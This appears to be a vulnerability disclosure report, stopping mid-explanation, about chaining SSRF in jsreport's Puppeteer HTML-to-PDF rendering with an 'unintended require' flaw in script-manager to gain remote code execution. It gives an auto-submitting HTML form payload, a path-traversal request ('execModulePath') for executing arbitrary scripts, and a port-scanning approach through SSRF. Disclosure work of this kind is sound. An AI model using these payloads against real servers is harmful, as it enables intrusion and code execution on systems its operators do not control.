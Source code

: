 `jsreport` consists of a variety of packages which combines in one working application. `Script-manager` is one of them, it is utilized for running user's scripts in a sandbox and has an `unintended require` vulnerability (I have a separate report describing this vulnerability) which allows an attacker to load code that was not intended to execute. Another module is `Puppeteer` which is headless Chrome Node API. The application uses it for turning user's HTML into pdf files and unfortunately, the way it is applied allows fetching URLs and sending requests defined in an HTML file by a user which is known as SSRF (Server Side Request Forgery). Chaining these two vulnerabilities (Unintended require + SSRF) leads to remote code execution possibility.

**SSRF:**
SSRF itself is quite simple, generating a pdf report from an HTML template like this one:

    <html>
    <head>
        <meta content="text/html; charset=utf-8" http-equiv="Content-Type">
    </head>
    <body>
    		<!-- will send GET request to example.com -->
        <img src="http://example.com/" />
    		<!-- will send POST request to example.com -->
    		<form id="pwn-form" method="POST" action="http://example.com/action">
            <input type="hidden" name='SomeField' value='Some Value' />
        </form>
        <script>
            var form = document.getElementById("pwn-form");
            form.submit();
        </script>
    </body>
    </html>
    

will perform requests from the server to example.com (GET and POST according to examples)
@@ pictures

**Unintended require:**

A detailed description of this bug can be found here #660563. The main idea of this vulnerability is that a separate server is running on a randomly chosen port and as long as we found out the port it is possible to send a request with the path to any script (located on the machine) that we want to execute.

request example:

    {"options": {"rid": 12, "execModulePath": "./../../../pwn.js"}}

**How to find port:**

In order to exploit `script-manager` we can scan ports on the server which runs `jsreport`, by utilizing SSRF (discussed previously). To do it you should create an HTML template which sends an HTTP request to port you would like to check and render it as a pdf in the application. It is easy to distinguish result as long as the response is printed to the pdf output. Of course, it would take ages to check all the ports one-by-one, but I found out some tricks that allow to do it in a few minutes.

First of all, it is possible to do many requests with one HTML page and by checking the output figure out which range of ports includes the one we look for. 
